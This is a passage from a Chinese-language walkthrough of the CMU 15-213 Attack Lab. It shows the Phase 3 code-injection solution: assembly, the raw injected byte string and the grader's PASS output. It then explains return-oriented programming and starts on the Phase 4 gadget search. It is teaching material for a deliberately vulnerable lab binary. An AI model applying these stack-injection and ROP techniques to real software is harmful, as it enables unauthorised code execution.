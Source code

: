 不要忘了最后的终止符号`0`。

这样也直接确定了字符串的位置，是我随便取的，直接把地址给`rdx`就可以。

```nasm
movq  $0x5561dca8,%rdi
```

然后跳转到`touch3`。

```nasm
pushq  $0x4018fa
ret
```

把这段代码像之前一样通过终端输入注入到`ctarget`，不需要担心`touch3`会更改`buf`的空间，因为这段空间到那时候就已经执行完、没有用了。

通过终端输入的内容为：

```
48 bb 35 39 62 39 39 37 66 61 48 c7 c1 a8 dc 61 55 48 
89 19 c7 41 08 00 00 00 00 48 c7 c7 a8 dc 61 55 68 fa 
18 40 00 c3 78 dc 61 55 00 00 00 00
```

这样就完成了`Phase 3`。

```
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 BB 35 39 62 39 39 37 66 61 48 C7 C1 A8 DC 61 55 48 89 19 C7 41 08 00 00 00 00 48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 78 DC 61 55 00 00 00 00 
```

## 面向返回编程ROP

现代操作系统和编译器都采用了栈随机机制，不能很容易获得栈的地址。这次执行获得了栈的地址，下一次栈就不在这个位置了。即便能确定栈的地址，这些地址上的数据也被标为**不可执行**，不能直接注入再使用。

`Phase 4`和`5`带我们看另一种机制，也就是`Return Oriented Programming`。

可执行文件中存在很多可执行的数据，在`.text`段中。它们之中又存在很多值为`c3`的字节，编码为`ret`指令。令程序跳转到这些字节之前的一个位置，CPU把前面这一段数据按指令解读，执行完后，就会执行`ret`指令，跳转到现在栈上存放的一个地址。新到达的地址也是`c3`结尾的，这样就又执行完了一个指令，再根据栈上的信息继续跳转。

找到`.text`段中所有值为`c3`的字节，设置好栈，让程序依次跳转到它们之前，把它们之前的字节按照指令来执行。这样即使不能注入代码，也能利用程序原有的代码做点事情。

## 跳转到函数并传参

`Phase 4`要求我们利用ROP实现和`Phase 2`一样的效果。在跳转到`touch2`之前，我们的任务是把`0x59b997fa`放进寄存器`rdi`。

先找到`gadget farm`里面所有的`c3`出现的地方，然后看看哪个能为我所用。

```nasm
00000000004019a0 <addval_273>:
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3

00000000004019ca <getval_280>:
4019ca: b8 29 58 90 c3 mov $0xc3905829,%eax
4019cf: c3
```

